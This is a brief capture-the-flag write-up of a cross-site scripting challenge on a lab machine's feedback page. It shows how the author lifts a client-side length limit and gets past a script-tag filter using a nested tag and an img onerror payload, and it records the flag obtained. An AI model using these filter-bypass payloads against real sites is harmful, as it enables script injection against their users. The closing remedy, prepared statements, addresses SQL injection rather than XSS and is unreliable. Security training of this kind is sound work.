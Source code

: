 # XSS Basic
On this page [http://192.168.8.120/?page=feedback](http://192.168.8.120/?page=feedback "Feedback page") xss has been Found

## Manipulation

The ***name*** textbox ***max-length*** is set to 10 characters

``` html
<input name="txtName" type="text" size="30" maxlength="10">
```
We then change the html maxlength attribute to 100000, or rather remove it.

``` html
<input name="txtName" type="text" size="30" maxlength="100000">
```
The ***textbox*** refuses to take a script tag, it might be using ***regular expression*** to filter out script tag.

But the ***regular expression*** used unable to filter this script out
``` javascript
<scr<script>ipt>alert(1)</script>
```

We then insert img tag to get a flag
``` html
<img src=1 href=1 onerror="javascript:alert(1)"></img>
```
>0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e

## Solution 
text at the backend must be treated as strings, and since the site uses php, prepared statements must be used to prevent this.